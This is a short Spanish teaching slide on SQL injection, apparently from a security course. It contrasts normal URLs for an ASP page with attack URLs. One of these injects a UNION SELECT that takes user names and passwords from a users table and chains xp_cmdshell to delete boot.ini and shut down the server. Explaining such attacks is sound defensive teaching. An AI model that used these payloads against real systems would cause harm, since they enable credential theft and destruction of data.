

# SQL Injection.  Listado de información
Acceso a información con proceso de listado
http://www.miweb.com/prog.asp?parametro1=hola
http://www.miweb.com/prog.asp?parametro1=1

Ataque
http://www.miweb.com/prog.asp?parametro1=‘ union select nombre, clave,1,1,1 from tabla_usuarios; otra instrucción; xp_cmdshell(“del c:\boot.ini”); shutdown --
http://www.miweb.com/prog.asp?parametro1=-1 union select .....; otra instrucción; --